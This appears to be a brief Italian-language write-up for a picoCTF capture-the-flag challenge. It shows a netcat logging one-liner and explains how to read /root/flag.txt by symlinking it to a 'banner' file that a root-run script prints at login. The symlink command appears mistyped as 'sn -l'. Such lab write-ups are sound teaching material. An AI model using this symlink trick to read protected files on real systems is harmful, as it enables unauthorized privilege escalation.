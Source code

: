 script -c "nc tethys.picoctf.net 60434" log.txt && sed -i '1d;$d' log.txt




^^^^^ questo e' il comando per semplificare il piu' possibile
o meglio, cosi' si impara qualche nuova sintassi


sed -i '1i nuova riga'
per inserire una nuova riga (sha-bang ad esempio!)

PROCEDIMENTO



sn -l "/root/flag.txt" banner



come funziona?
il server una volta acceduto legge il file banner
navigando nel fs si trova il file del comando, che non si puo' leggere pero'...

COME FACCIAMO?
possiamo utilizzare un link simbolico!
lo script avviato avra' privilegi di root! e leggera' il link simbolico
e lo stampera' come header di accesso al server ;)
